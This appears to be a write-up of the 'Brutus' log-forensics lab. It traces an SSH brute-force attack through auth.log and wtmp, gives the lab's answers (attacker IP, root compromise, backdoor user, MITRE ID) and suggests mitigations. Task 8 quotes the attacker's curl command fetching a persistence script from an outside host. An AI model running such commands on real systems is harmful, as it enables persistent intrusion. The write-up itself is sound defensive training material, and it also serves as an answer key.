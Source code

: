#  🕵️ Brutus Lab Investigation

## Task 1: Identify the Attacker's IP Address

- **IP Address Used by the Attacker**: `65.2.161.68`
- The attacker used this IP address to carry out a brute force attack, which can be seen in the logs.

![Brute-Force Logs](https://imgur.com/YRqEdFH.png)  
*Ref 1: `auth.log` showing brute-force attempts from attacker IP `65.2.161.68`*  

---

## Task 2: Identifying the Compromised Account

- **Compromised Account**: `root`
- The attacker successfully gained access to this account after multiple failed login attempts.

![Successful Login Entry](https://imgur.com/Qy2pA10.png)  
*Ref 2: Attacker successfully logged in as `root`*

---

## Task 3: Identify the Timestamp of Attacker's Manual Login

- **Login Time**: `2024-03-06 06:32:45`
- The login time is found in the `wtmp` artifact, and it is different from the authentication time.

![Attacker's Login Time](https://imgur.com/n3ygooB.png)  
*Ref 3: `wtmp` logs showing manual attacker login at `06:32:45`*

---

## Task 4: Identifying the Session Number

- **Session Number**: `37`
- SSH login sessions are tracked and assigned a session number. This session number corresponds to the attacker's session for the user account `root`.

![Session Number](https://imgur.com/bI9FQp9.png)  
*Ref 4: Session `37` assigned to the attacker's login*

---

## Task 5: Discovering the Attacker's Persistence Strategy

- **Backdoor Account Created by the Attacker**: `cyberjunkie`
- The attacker added this new user account as part of their persistence strategy on the server and gave it higher privileges.

![New User Creation](https://imgur.com/VlVnkQ6.png)  
*Ref 5: Attacker-created account `cyberjunkie` for persistence*

---

## Task 6: MITRE ATT&CK Sub-Technique ID

- **MITRE ATT&CK Sub-Technique ID**: `T1136.001`
- The attacker used the **T1136.001** sub-technique for persistence by creating a new account, as part of their attack strategy.

![MITRE ATT&CK Reference](https://imgur.com/qvv8nWp.png)  
*Ref 6: MITRE ATT&CK framework reference for `T1136.001` – New Account Creation*

---

## Task 7: End Time of the Attacker's First SSH Session

- **Session End Time**: `2024-03-06 06:37:24`
- This timestamp corresponds to when the attacker's first SSH session ended, as noted in the `auth.log`.

![Attacker's Exit Log](https://i.imgur.com/SRnv3ha.png)
*Ref 7: `auth.log` showing the attacker’s session end time at `06:37:24`*

---

## Task 8: Full Command Executed by the Attacker Using Sudo

- **Command Executed**:  
  `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`
- The attacker logged into their backdoor account and used `sudo` privileges to execute this command to download a script.

![Command Execution Log](https://imgur.com/AjfZGI4.png)  
*Ref 8: Command executed by the attacker using sudo to download the script*

---

### **Findings and Mitigation Steps:**

- **Attack Vector**: Brute-force attack via SSH (`auth.log` analysis)
- **Persistence Mechanism**: Created a new privileged backdoor user (`cyberjunkie`)
- **Mitigation Steps**:
  - **Enforce strong SSH authentication** (disable password logins, use key-based authentication)
  - **Enable fail2ban** to block brute-force attempts
  - **Monitor new user creations & privilege escalations**
  - **Analyze outbound connections** for malicious activity (`curl` downloads)

---

🚀 **This investigation provided hands-on experience in forensic log analysis, attacker tracking, and security hardening.**
